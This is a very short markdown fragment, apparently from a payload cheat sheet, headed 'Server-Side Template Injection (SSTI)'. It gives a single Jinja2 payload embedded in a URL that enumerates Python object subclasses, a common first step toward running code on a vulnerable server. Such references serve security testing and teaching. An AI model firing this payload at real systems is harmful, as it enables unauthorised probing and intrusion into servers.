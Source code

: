 # Server-Side Template Injection (SSTI)

## Python
### Jinja2
```
http://[URL]/{{ ''.__class__.__mro__[1].__subclasses__() }}
```
